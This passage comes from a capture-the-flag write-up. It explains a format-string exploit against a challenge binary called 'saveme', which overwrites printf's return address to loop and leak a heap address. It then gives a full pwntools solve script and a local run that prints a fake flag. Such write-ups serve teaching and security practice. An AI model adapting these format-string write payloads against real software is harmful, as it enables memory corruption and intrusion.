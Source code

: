 (On a sidenote, if the last character of the format string part of the payload were an "r" instead of an "s", because `putc_got+2` is `0x404072`, and "r" is `0x72`, I could've used that to overlap that address on there, making the payload 80 bytes. It would have been very cool if that were possible, but sadly it was not.)

Then panda came up with the idea to overwrite the return address of `printf` itself when it's executing. With this, we only need 1 write to have a loop (!) because the return address of `printf` is somewhere in `main`, which has some address of `0x40....`. We can therefore just write the lower two bytes; because this takes so little space, we can also leak the heap address at the same time. With the leak, we can use `scanf` and `printf` again to then print out the flag.

Final script:

```py
from pwn import *

#p = remote('challs.ctf.sekai.team', 4001)
p = process('./saveme')

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')
printf_ret = buf_addr - 0x18

payload = b'%5369p'     # 0x14f9
payload += b'%11$hn'    # write that over the lowest two bytes of printf's return address
payload += b'%12$s'     # heap address leak

payload += b'\x00'*(8-(len(payload)%8)) + p64(printf_ret) + p64(buf_addr-0xd0)

p.sendline(payload)
p.recvuntil(b'0xa')
heap_addr = p.recv().strip()
print(heap_addr)
flag_addr = unpack(heap_addr, 'all', endian='little') - 0xc00

p.sendline(b'%9$s\x00\x00\x00\x00' + p64(flag_addr))    # print flag
print(p.recvall().decode('utf-8'))
```

Let's check on local:

```
$ python3 solve.py
[+] Starting local process './saveme': pid 6115
b'\xa0\xde\xe2'
[+] Receiving all data: Done (32B)                                                                                                                        [*] Process './saveme' stopped with exit code 0 (pid 6115)
flag{this_is_a_local_fake_flag}
```

:flage:

## Flag
